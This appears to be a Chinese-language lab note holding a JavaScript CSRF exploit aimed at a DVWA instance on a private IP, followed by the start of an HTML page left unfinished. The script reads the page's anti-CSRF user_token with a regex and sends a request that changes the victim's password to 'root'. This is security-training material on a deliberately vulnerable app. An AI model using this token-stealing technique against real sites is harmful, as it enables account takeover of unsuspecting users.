 js异步请求
```js
var tokenurl = 'http://192.168.112.200/DVWA-master/vulnerabilities/csrf/';
var xmlhttp = new XMLHttpRequest();

// 设置onreadystatechange事件处理器
xmlhttp.onreadystatechange = function() {
    /*
        0 - 请求未初始化（open 方法还没有被调用）
        1 - 服务器连接已建立（open 方法已被调用）
        2 - 请求已接收（send 方法已被调用，且头部和状态可获得）
        3 - 请求处理中（下载中，responseText 属性已包含部分数据）
        4 - 请求已完成，且响应已就绪（下载操作已完成）
    */
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
        // 取得响应源码，正则提取Token
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        console.log(regex);
        var match = text.match(regex);
        if (match && match[1]) {
            var token = match[1];
            console.log(token);
            // 创建一个新的XMLHttpRequest对象用于修改密码请求
            var changexmlhttp = new XMLHttpRequest();
            var changeUrl = 'http://192.168.112.200/DVWA-master/vulnerabilities/csrf/?user_token=' + token + '&password_new=root&password_conf=root&Change=Change';
            changexmlhttp.open("GET", changeUrl, true);
            changexmlhttp.send();
        }
    }
};

// 开启异步请求
xmlhttp.open("GET", tokenurl, true);
xmlhttp.send();


```

```html
<!DOCTYPE html>

<html lang="en">

  

<head>

    <meta charset="UTF-8">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <title>get</title>

</head>

  

<body>

    <h1>get</h1>

    <br>

```